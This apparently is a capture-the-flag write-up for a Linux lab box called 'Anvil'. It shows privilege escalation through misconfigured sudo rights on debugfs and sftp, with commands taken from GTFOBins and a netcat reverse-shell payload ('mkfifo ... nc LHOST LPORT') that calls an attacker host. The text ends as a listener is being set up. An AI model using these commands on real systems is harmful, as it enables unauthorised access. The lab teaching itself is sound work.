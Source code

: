 # Box: Anvil
# Level: Intermediate
# OS: Linux
<hr>

Lets get started

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/540b796a-a533-4954-b271-825e14715886)

Lets connect to the machine

command:```nc -t 10.0.40.10 1337```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/008fc3e5-46c3-407c-a88a-fab135dd2dd6)

cool we are connected to the target.

Running the ```sudo -l``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/469b4ce8-49a3-4b94-a37a-ad2f885d9ee3)

We can see that user ```silver``` can run the binary ```debugfs``` with sudo privileges. This is what we call ```Misconfigured SUDO Privileges```

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/debugfs/), I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4684de10-2019-44b0-bf11-e2b06239fde6)

So, to escalate our privileges

command:```sudo -u silver /sbin/debugfs```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/326117dd-f7bb-4267-ba24-46c0a73b547d)

Good, now run this ```!/bin/sh```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ef7d5dd7-87e3-4a51-8449-3450d840922d)

Nice, we were able to successfully escalate our privileges to user ```silver```

Now, lets further escalate our privileges

Running the ```sudo -l``` command again,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d6b10ccb-e766-4617-a4cf-8658b06314b4)

So, user ```gold``` has ```sudo``` permissions to run the binary ```sftp```

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/sftp/#sudo), I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/40fe3caa-f578-40b8-a5c0-1cdf7e06ce11)

So we can try to do something like this

command:```HOME=blackanon@attacker.com```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a7801fbd-eacc-4043-95f2-1fd60c4bec33)

cool, now run this ```sudo -u gold /usr/bin/sftp $HOST```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8619f907-f430-4fae-a9d2-130d8e6658f4)

oops, we can see that it's ssh running here. So, I decided to trigger the ```help``` menu

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/48337434-ae85-4d2e-b3e1-eb8804b196d1)

We can use that switch to run a program, this means we can try to execute a reverse shell

Payload
```sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LHOST LPORT >/tmp/f
```

Save this in a ```.sh``` file and send it over to the target

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b8f56e07-b469-470f-aad8-5ff784b69f10)

Cool, now lets execute that command again, but this time ensure you have your netcat listener set up
















